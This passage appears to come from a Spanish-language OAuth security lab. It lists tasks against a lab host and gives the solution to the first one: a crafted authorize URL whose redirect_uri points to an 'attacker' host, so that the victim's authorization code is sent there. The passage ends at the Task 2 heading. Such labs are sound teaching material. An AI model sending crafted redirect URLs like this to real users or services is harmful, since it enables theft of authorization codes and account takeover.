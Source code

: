 ### Laboratorio <a href="#lab" id="lab"></a>

Configuración de red

```
- The target application can be found at http://gallery:3005
- The username is koen and the password is password.
```

#### Tareas <a href="#tasks" id="tasks"></a>

Tarea 1. Cree una prueba de concepto de robo de código:

```
- Craft an URL that can be sent to a victim in order to steal the authorization code once he/she logs in into the /oauth endpoint. 
- You can use the following data: the response type is "code", the scope is "view_gallery" and the client_id is "photoprint".
```

Tarea 2. Use el código adquirido para forzar el secreto de cliente:

```
- Use a POST request to the /token endpoint in order to bruteforce the  client secret. 
- Consult with OAuth's documentation to recreate the  request. The grant type is "authorization_code"
```

Tarea 3. Descubra otra vulnerabilidad de token:

```
- Discover another vulnerability by abusing the /photos/me?access_token= endpoint.
```

#### Soluciones <a href="#solutions" id="solutions"></a>

A continuación, puede encontrar soluciones para cada tarea. Sin embargo, recuerda que puedes seguir tu propia estrategia, que puede ser diferente de la que se explica en el siguiente laboratorio.

Tarea 1. Crear una prueba de concepto de robo de código

En función de la documentación de OAuth disponible en https://tools.ietf.org/html/rfc6749 puede construir la siguiente solicitud GET. Tenga en cuenta que debe cerrar la sesión al visitar esta URL.

```
http://gallery:3005/oauth/authorize?response_type=code&redirect_uri=http%3A%2F%2Fattacker%2Fcallback&scope=view_gallery&client_id=photoprint
```

Al iniciar sesión, hay una **pantalla de consentimiento**, que debe aceptarse, al igual que un inicio de sesión normal a través de OAuth.

A continuación, se redirige al usuario al sitio web del **atacante** con el código de autorización en el valor de devolución de llamada. Cualquier usuario al que se le envíe la URL anterior e inicie sesión a través de ella, realizará una solicitud al sitio web del atacante revelando el código de autorización.

La vulnerabilidad subyacente es una redirección no validada.

Tarea 2. Usar el código adquirido para forzar el secreto del cliente
